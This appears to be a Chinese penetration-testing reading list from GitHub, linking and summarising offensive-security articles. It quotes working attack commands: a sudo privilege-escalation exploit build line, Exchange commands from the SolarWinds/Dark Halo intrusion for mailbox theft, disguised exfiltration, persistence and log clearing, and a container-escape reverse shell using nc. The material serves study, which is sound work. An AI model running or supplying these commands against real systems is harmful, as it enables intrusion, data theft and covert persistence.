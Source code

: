 # 2021-Read-article

有兴趣可以看看我的云渗透课程：https://www.yuque.com/u8047536/supvqp/ri4ft0

## 渗透

https://github.com/ihebski/DefaultCreds-cheat-sheet
> 网络设备默认密码

- [JumpServer 从信息泄露到远程代码执行漏洞分析](https://blog.riskivy.com/jumpserver-%E4%BB%8E%E4%BF%A1%E6%81%AF%E6%B3%84%E9%9C%B2%E5%88%B0%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/)
> 标题描述有问题，泄漏机器user_id等，通过websocket获取token，再利用token通过相关的API来执行机器中的命令；

- [A Glossary of Blind SSRF Chains](https://blog.assetnote.io/2021/01/13/blind-ssrf-chains/)
> 关于Blind SSRF利用

- [CVE-2021-3156](https://github.com/blasty/CVE-2021-3156)
> SUDO提权：
> make && ./sudo-hax-me-a-sandwich

https://github.com/Kyuu-Ji/Awesome-Azure-Pentest
> Azure渗透测试资料

https://afinepl.medium.com/testing-and-exploiting-java-deserialization-in-2021-e762f3e43ca2
> Java反序列化

- [offensive-security-guide-to-ssh-tunnels-and-proxies](https://posts.specterops.io/offensive-security-guide-to-ssh-tunnels-and-proxies-b525cbd4d4c6)

- [红蓝对抗中的云原生漏洞挖掘及利用实录](https://mp.weixin.qq.com/s/Aq8RrH34PTkmF8lKzdY38g)
> 2020年演练通过云原生突破进入内网；

> 容器环境收集收集技巧，Docker逃逸一些技巧和漏洞利用

> 编排组件API配置不当等：kubelet、etcd、dashboard


- [负载均衡下的 WebShell 连接](https://mp.weixin.qq.com/s/4Bmz_fuu0yrLMK1oBKKtRA)
> 通过代理脚本判断之后执行命令

- [CobaltStrike插件编写指南](https://mp.weixin.qq.com/s/i7QzwMAmUyxoBs0CwcGC-g)

- [渗透大型菠菜网站鸭脖](https://mp.weixin.qq.com/s/sJAyhQQvGqG-SliSGbhJNA)

- [HackTricks](https://book.hacktricks.xyz/)

- [web安全-数据验证不当](https://www.yuque.com/pmiaowu/web_security_1)

- [Atomic Red Team adds tests for cloud and containers](https://redcanary.com/blog/art-cloud-containers/)
> Atomic Red Team一直专注于传统的Windows端口，其实大部分云基础设施都是在Linux上运行

- [红队硬件工具包](https://github.com/sectool/redteam-hardware-toolkit)

- [安全建设-攻防思路及实践（一）](https://paper.seebug.org/1637/)

- [Exchange攻击方法](https://blog.orange.tw/2021/08/proxylogon-a-new-attack-surface-on-ms-exchange-part-1.html?m=1)

- [RedTeam笔记](https://kwcsec.gitbook.io/the-red-team-handbook/)

- [Zabbix攻击面](http://noahblog.360.cn/zabbixgong-ji-mian-wa-jue-yu-li-yong/)

- [COBALTSTIRKE BOF技术剖析（一）](http://blog.nsfocus.net/cobaltstirke-bof/)
> 内存中不落地执行，避免针对文件内容的检测，在本进程加载执行BOF中的功能代码。

- [MYSQL存在注入点，写WEBSHELL的5种方式](https://manning23.github.io/2019/07/23/MYSQL%E5%AD%98%E5%9C%A8%E6%B3%A8%E5%85%A5%E7%82%B9%EF%BC%8C%E5%86%99WebShell%E7%9A%845%E7%A7%8D%E6%96%B9%E5%BC%8F/)

- [红蓝对抗之隐蔽通信应用及防御](https://mp.weixin.qq.com/s/huDegnt6oMg-drOB0SyZfg)

- [Compromising vCenter via SAML Certificates](https://www.horizon3.ai/compromising-vcenter-via-saml-certificates/)
> 通过读取data.mdb中的证书，通过证书请求获取管理员cookie

- [Public Pentest reports](https://pentestreports.com/reports/)
> 国外公开渗透测试报告模板

- [Serverless 扫描技术研究及应用](https://paper.seebug.org/1776/)

- [CVE-2021-42287/CVE-2021-42278 漏洞复现](https://www.yuque.com/0xcccccccc/vul/wean9o?)


## 内网渗透

- [dark-halo-leverages-solarwinds-compromise-to-breach-organizations](https://www.volexity.com/blog/2020/12/14/dark-halo-leverages-solarwinds-compromise-to-breach-organizations/)
```bash
使用Get-ManagementRoleAssignment获取用户列表
C:\Windows\system32\cmd.exe /C powershell.exe -PSConsoleFile exshell.psc1 -Command "Get-ManagementRoleAssignment -GetEffectiveUsers | select Name,Role,EffectiveUserName,AssignmentMethod,IsValid | ConvertTo-Csv -NoTypeInformation | % {$_ -replace ‘`n’,’_’} | Out-File C:\temp\1.xml"
 
获取虚拟目录配置信息
C:\Windows\system32\cmd.exe /C powershell.exe -PSConsoleFile exshell.psc1 -Command "Get-WebServicesVirtualDirectory | Format-List"
 
查询组织管理成员，sqlceip.exe其实是ADFind.exe
C:\Windows\system32\cmd.exe /C sqlceip.exe -default -f (name="Organization Management") member -list | sqlceip.exe -f objectcategory=* > .\SettingSync\log2.txt
 
创建计划任务
$scheduler = New-Object -ComObject ("Schedule.Service");$scheduler.Connect($env:COMPUTERNAME);$folder = $scheduler.GetFolder("\Microsoft\Windows\SoftwareProtectionPlatform");$task = $folder.GetTask(“EventCacheManager”);$definition = $task.Definition;$definition.Settings.ExecutionTimeLimit = “PT0S”;$folder.RegisterTaskDefinition($task.Name,$definition,6,”System”,$null,5);echo “Done”
 
C:\Windows\system32\cmd.exe /C schtasks /create /F /tn “\Microsoft\Windows\SoftwareProtectionPlatform\EventCacheManager” /tr “C:\Windows\SoftwareDistribution\EventCacheManager.exe” /sc ONSTART /ru system /S [machine_name] 
 
密取数据：
使用New-MailboxExportRequest 和 Get-MailboxExport-Request 命令从邮箱中窃取数据
C:\Windows\system32\cmd.exe /C powershell.exe -PSConsoleFile exshell.psc1 -Command “New-MailboxExportRequest -Mailbox foobar@organization.here -ContentFilter {(Received -ge ’03/01/2020′)} -FilePath ‘\\<MAILSERVER>\c$\temp\b.pst'”
 
7z打包加密
C:\Windows\system32\cmd.exe /C .\7z.exe a -mx9 -r0 -p[33_char_password]  “C:\Program Files\Microsoft\Exchange Server\V15\FrontEnd\HttpProxy\owa\auth\Redir.png” C:\Temp\b.pst
 
https://owa.organization.here/owa/auth/Redir.png
\Program Files\Microsoft\Exchange Server\V15\FrontEnd\HttpProxy\owa\auth\
 
同步邮件
C:\Windows\system32\cmd.exe /C powershell.exe -PSConsoleFile exshell.psc1 -Command “Set-CASMailbox -Identity <UserID> -ActiveSyncAllowedDeviceIDs @{add=’XXXXXXXXXXXXX’}"
 
清除记录：
C:\Windows\system32\cmd.exe /C powershell.exe -PSConsoleFile exshell.psc1 -Command "Get-MailboxExportRequest -Mailbox user@organization.here | Remove-MailboxExportRequest -Confirm:$False"
```

- [windows 计划任务隐藏新姿势分享](https://paper.seebug.org/1464/)
> schtasks.exe /create /tn test /tr "calc.exe" /sc minute /mo 1 /ru "administrator"

- [ACTIVE DIRECTORY PENTEST CHEAT SHEET - LATERAL MOVEMENT & PERSISTENCE TECHNIQUES](https://www.hackingdream.net/2021/05/ad-pentest-cheatsheet-lateral-movement-persistence.html)


## 云安全
- [Docker容器逃逸漏洞CVE-2020-15257]()
```text
在版本1.3.9和1.4.3之前的容器中，容器填充的API不正确地暴露给主机网络容器。填充程序的API套接字的访问控制验证了连接过程的有效UID为0，但没有以其他方式限制对抽象Unix域套接字的访问。这将允许在与填充程序相同的网络名称空间中运行的恶意容器（有效UID为0，但特权降低）导致新进程以提升的特权运行。
POC下载：https://github.com/Xyntax/CDK/releases/tag/0.1.6
cat /proc/net/unix|grep -a "containerd-shim"
原理备注：containerd->containerd-shim->runc 的通信模型中，containerd-shim的接口作为abstract unix socket暴露，在docker使用--net=host参数启动、与宿主机共享net namespace时，其中的unix socket可以被容器内部访问到，容器中攻击者通过该socket可以通过API控制下游runc进程启动新的恶意镜像，并通过该镜像逃逸。
Attack：nc -lvp 12345
Client：./cdk_linux_386 run shim-pwn 192.168.163.131 12345
关于K8s容器安全渗透，腾讯蓝军已经研究的很深，安全人员研究的方向应该看向运维，看他们使用哪些系统等；
```

- [云原生基础设施安全初探](https://security.tencent.com/index.php/blog/msg/190)

- [云原生安全白皮书中文版](https://mp.weixin.qq.com/s/WKCziOYpFBP7tmzh7927AA)

- [CDN+FAAS打造攻击前置](http://blog.nsfocus.net/cdn-faas/)
```bash
攻击者又转而对其中一种称之为云函数（FaaS，Function as a Service）
滥用云函数作为攻击前置的方法早在2018年就被提出
增强基础设施在伪装性、探测监控及溯源反制等方面的能力
随着攻防对抗形势的白热化发展，对抗升级的过程愈发对OPSEC提出了更高的要求
```

- [云原生](https://www.hi-linux.com/posts/14157.html#vip-container)
> 介绍每一层的应用以及工作原理



前期阅读文章时记录的格式和以前不一样，现在转换成markdown较为麻烦，有空就更新一下




